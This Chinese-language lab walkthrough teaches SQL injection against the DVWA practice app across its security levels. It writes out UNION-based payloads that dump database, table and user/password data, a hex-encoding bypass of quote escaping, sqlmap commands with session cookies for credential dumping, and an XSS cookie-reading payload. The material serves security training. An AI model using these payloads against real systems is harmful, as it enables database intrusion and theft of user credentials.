

SQL 注入攻击实战

文章目录
5. SQL 注入攻击实战
5.1 SQL 注入概述
所谓 SQL 注入，就是通过把 SQL 命令插入到 Web 表单提交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的 SQL 命令。它是利用现有应用程序，将（恶意的）SQL 命令注入到后台数据库引擎执行的能力，它可以通过在 Web 表单中输入（恶意）SQL 语句得到一个存在安全漏洞的网站上的数据库，而不是按照设计者意图去执行 SQL 语句。
SQL 注入一般按照注入方式可以分为普通注入和盲注。普通注入就是注入的页面是直接显示数据库中的字段内容的，我们可以通过 SQL 注入一步一步把数据库中我们想要的内容显示在页面中。而盲注则要困难很多，页面并没有直接显示数据库字段内容，显示的可能只是一个判断结果（是或者否），页面只能告诉你你构造的 SQL 语句对还是错，你要查询的内容存在还是不存在。这种情况下，我们只能全部靠猜。更有甚者，连是否的结果都不显示，我们可能还需要通过返回数据的延迟来判断是否猜对。
SQL 注入按照注入的数据类型还可以分为数字型注入和字符型注入。SQL 注入一般都需要利用 Web 站点现有的查询语句。当现有的查询语句 Where 筛选条件匹配的字段是数值类型，那么就是数字型注入；如果匹配的字段是字符类型，那么就是字符型注入。一般字符型注入需要构造单引号用于闭合语法，还需要加入注释符使原本的单引号无效。
另外，SQL 注入按照提交参数方式，还可以分为 GET 方式注入、POST 方式注入等等。
5.2 Low 级别 SQL 注入实战
5.2.1 手工注入
- 设置安全级别为 Low 后，点击
SQL Injection进入 SQL 注入练习页面。首先在文本框随便输入一个 ID 号，发现可以返回用户信息。同时发现 URL 中出现了提交的参数信息，说明该页面提交方式为 GET，如图 5-1

图 5-1
- 在文本框中输入
1‘，发现页面报错，说明单引号被执行，存在 SQL 注入漏洞，并从报错信息中得知该站点的数据库为 MySQL，如图 5-2，图 5-3

图 5-2

图 5-3
- 在文本框中输入
1 and 1=1和1 and 1=2，都能返回数据，说明可能注入漏洞不是数字型，如图 5-4，图 5-5

图 5-4

图 5-5
- 在文本框输入
1' and 1=1#，可以返回数据，输入1' and 1=2#，没有数据返回，说明注入成功，确认漏洞为字符型，如图 5-6，图 5-7

图 5-6

图 5-7
- 在文本框输入
1' order by 1和1' order by 2，有数据返回，输入1' order by 3，页面报错，说明本页面只查询了 2 个字段，如图 5-8，图 5-9，图 5-10

图 5-8
图 5-9
图 5-10
- 在文本框输入
1' and 1=2 union select 1,2#，确认页面中 First name 处显示的是记录集中第一个字段，Surname 处显示的是记录集中第二个字段，如图 5-11

图 5-11
- 在文本框输入
1' and 1=2 union select database(),2#，原第一个字段处显示当前数据库名称为dvwa，如图 5-12
图 5-12
- 在文本框输入
1' and 1=2 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()#，原第二个字段处显示当前数据库中的所有表名。发现guestbook表和users表，users表中极有可能是记录用户名和密码的表，如图 5-13
图 5-13
- 在文本框输入
1' and 1=2 union select 1,group_concat(column_name) from information_schema.columns where table_name='users'#，原第二个字段处显示users表中的所有字段名。其中发现user和password字段，极有可能是用户名和密码字段，如图 5-14

图 5-14
在文本框输入
1' and 1=2 union select user,password from users#，原第一个字段和第二个字段处分别显示表中的用户名和密码，如图 5-15
图 5-15
在 http://www.cmd5.com 破解 MD5 加密的密码，即可得到密码明文，如图 5-16

图 5-16
5.2.2 SQLMap 自动化注入
- 在 Kali 中访问 DVWA ，安全级别设置为 Low，进入 SQL 注入模块，随意输入 ID 值，并复制当前 URL 地址，如图 5-17

图 5-17
- 由于
DVWA需要登录才能访问该页面，所以使用SQLMap工具自动化注入时，需要获取当前的 Cookie 值，我们可以在反射型 XSS 的练习模块中获取当前的Cookie。点击XSS Reflected，在文本框中输入><script>alert(document.cookie)</script>，提交后即可显示当前 Cookie，如图 5-18

图 5-18
- 复制当前
URL地址，打开Kali的终端，使用SQLMap命令sqlmap -u "http://192.168.75.100/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie 'security=low; PHPSESSID=ni3gsltihh60r1q50tiu45l8p3' --dbs，可以自动探测出当前数据库名，如图 5-19

图 5-19
- 使用 SQLMap 命令
sqlmap -u "http://192.168.75.100/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie 'security=low; PHPSESSID=ni3gsltihh60r1q50tiu45l8p3' -D dvwa --table，可以自动探测出 dvwa 数据库中的所有表名，如图 5-20

图 5-20
- 使用
SQLMap命令sqlmap -u "http://192.168.75.100/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie 'security=low; PHPSESSID=ni3gsltihh60r1q50tiu45l8p3' -D dvwa -T users --column，可以自动探测出 users 表中的所有字段名，如图 5-21
图 5-21
- 使用
SQLMap命令sqlmap -u "http://192.168.75.100/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie 'security=low; PHPSESSID=ni3gsltihh60r1q50tiu45l8p3' -D dvwa -T users -C user,password --dump，可以自动探测出用户名和密码内容，并自动MD5解密，如图 5-22。中途需要手动输入Y进行确认

图 5-22
5.3 Medium 级别 SQL 注入实战
5.3.1 手工注入
- 安全级别设置为
Medium后，再次进入SQL注入模块，发现没有了文本框，随便选择一个ID后，可以返回数据，且URL上没有显示任何参数，说明该页面为POST提交方式。由于页面中没有提供输入信息的接口，所以需要使用Burpsuite等工具来构造POST包，如图 5-23

图 5-23
- 运行
Burpsuite，并设置好浏览器代理，如图 5-24，图 5-25

图 5-24

图 5-25
- 再次到 SQL 注入页面随便选择一个 ID 值，点击提交，该数据包会被
Burpsuite拦截并显示，如图 5-26

图 5-26
- 在 ID 值后加入 ' 单引号，并点击
Forward按钮，浏览器报错，发现同样存在 SQL 注入漏洞，如图 5-27，图 5-28
图 5-27
图 5-28
- 再次随意选择 ID 值，在
Burpsuite拦截的包中id=1后加上and 1=1，可以返回数据，加上and 1=2，没有数据返回，确认SQL注入点为数字型，如图 5-29，图 5-30，图 5-31，图 5-32
图 5-29

图 5-30

图 5-31

图 5-32
- 再次拦截数据包，加入
and 1=2 union select 1,2，确认页面中First name处显示的是记录集中第一个字段，Surname处显示的是记录集中第二个字段，如图 5-33，图 5-34
图 5-32
图 5-32
查询数据库名、表名方法与
Low级别思路一致，只不过不需要单引号和#来闭合语法拦截数据包，加入
and 1=2 union select 1,group_concat(column_name) from information_schema.columns where table_name='users'来查询字段名时，发现页面报错，如图 5-33，图 5-44

图 5-33
图 5-34
- 先暂时关掉
Burpsuite的代理功能，在页面中点击View Source，查看当前源码，发现对提交的 ID 值添加了mysql_real_escape_string函数，该函数会对单引号进行转义，从而导致 SQL 语句构造不成功，如图 5-35，图 5-36

图 5-35

图 5-36
对表名
users进行 16 进制 HEX 编码，就可以无需使用单引号。users HEX编码后为0x7573657273（网上有网站可以对字符进行在线 HEX 编码，可自行搜索）。重新开启Burpsuite的代理功能后，在拦截的包中加入and 1=2 union select 1,group_concat(column_name) from information_schema.columns where table_name=0x7573657273，可以成功查询出字段名，如图 5-37，图 5-38图 5-37

图 5-38
拦截数据包，加入
and 1=2 union select user,password from users，可以成功查询出用户名和密码的内容，如图 5-39图 5-39
5.3.2 SQLMap 自动化注入
- 使用
SQLMap自动完成POST注入，需要把正常POST包的内容复制到一个txt文档，再调用文档来进行注入。先使用Burpsuite拦截正常POST包，右键 - 选择Copy to file复制到/root/post.txt，关闭Burpsuite的代理功能，再使用命令sqlmap -r /root/post.txt --dbs，来查询数据库名称，如图 5-40
图 5-39

图 5-40

图 5-41
使用 SQLMap 命令
sqlmap -r /root/post.txt -D dvwa --table，查询表名使用 SQLMap 命令
sqlmap -r /root/post.txt -D dvwa -T users --columns，查询字段名使用 SQLMap 命令
sqlmap -r /root/post.txt -D dvwa -T users -C user,password --dump，查询用户名和密码内容
5.4 High 级别 SQL 注入实战
- 设置安全级别为
High，点开 SQL 注入页面，发现没有输入框，点击here to change your ID，跳转到新窗口输入查询信息。分离了输入页面和显示结果页面，防止使用SQLMap等工具进行自动化注入。同时，确认该页面参数提交方式为POST，如图 5-42

图 5-42
- 分析页面源码，发现加入了
LIMIT 1来限制 SQL 语句最多只查询出一条记录，导致无法正使用常规注入手段来爆出数据库中其他内容，如图 5-43
图 5-43
- 在文本框输入
1'，发现页面报错，但是报错内容被替换，无法得知数据库类型，如图 5-44

图 5-44
- 在文本框中输入
1’ and 1=1#，注释掉后面的LIMIT 1命令使其无效，可以返回数据，加入1‘ and 1=2#，没有返回数据，说明仍存在 SQL 注入漏洞，并确认漏洞为字符型，如图 5-45，图 5-46 所示
图 5-45

图 5-46
- 后续注入步骤与
Low级别思路一致，不再赘述
5.4 Impossible 级别 SQL 注入
设置安全级别为 Impossible，查看 SQL 注入页面源码，发现使用了 PDO 技术，几乎彻底杜绝了 SQL 注入，如图 5-47
图 5-47